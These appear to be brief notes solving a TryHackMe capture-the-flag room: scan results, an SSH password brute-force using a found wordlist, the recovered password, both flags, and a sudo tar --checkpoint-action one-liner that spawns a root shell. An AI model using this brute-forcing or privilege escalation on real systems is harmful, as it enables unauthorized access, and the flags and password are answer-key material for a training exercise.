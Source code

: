 gobuster initial directory scan: /images(301), /index.html(200)
/images has only one picture: crew.jpg

nmap initial scan: p21(ftp-anonymous allowed), p22(ssh), p80(http)

ftp has locks.txt and task.txt files
task.txt has the username "lin" mentioned
We can try bruteforce ssh password for lin with this info, use locks.txt file

SSH password for lin: RedDr4gonSynd1cat3

User flag: THM{CR1M3_SyNd1C4T3}

Priv Esc: 

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

Root Flag: THM{80UN7Y_h4cK3r}



